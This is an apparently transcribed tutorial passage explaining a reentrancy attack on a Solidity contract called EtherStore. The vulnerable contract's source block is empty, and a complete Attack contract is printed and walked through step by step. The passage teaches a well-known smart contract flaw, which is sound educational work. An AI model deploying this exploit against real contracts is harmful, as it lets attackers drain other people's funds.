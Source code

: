 ```solidity
```

Let's now see the same code using remix: here we have a contract named EtherStore and you can store your ether in it. You can store your ether by calling the deposit function, and this will update the internal balance which is kept by using the mapping balances. You can also withdraw by calling the withdraw function. It will first check that you have enough ether stored in this contract and then it will send ether to your address, and lastly it will update the balances mapping. And finally we have a helper function called getBalance which will return the total amount of ether stored in this contract.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.0;

import "./EtherStore.sol";

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) public {
        etherStore = EtherStore(_etherStoreAddress);
    }

    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw(1 ether);
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        // 0.5
        // etherStore.deposit.value(1 ether)();
        // 0.6
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw(1 ether);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

All right. So, let's now write the contract. That's going to use the reentrancy to attack this contract. We will name this contract attack. We will store the target contract to exploit in a state variable called etherStore when we deploy this contract we are passing the address of the etherStore and then we'll set our target by saying **etherStore = EtherStore(_etherStoreAddress)** etherStore equals EtherStore and then passing the address of the etherStore. We'll need two functions to do the reentrancy exploit. We're going to need a fallback function and the function to initiate the attack. And the function that's going to start the reentrancy exploit, here, I named it attack, when we call this function, we're gonna send 1 ether to etherStore, so here that's require that we have enough ether to initiate the attack and we can do that by requiring msg.value is greater than or equal to 1 ether. The first thing that we will do is deposit 1 ether into etherStore, so here we'll say: etherStore dot deposit followed by curly braces and inside the curly braces we say value semicolon 1 ether and we call a function by putting two parenthesis.
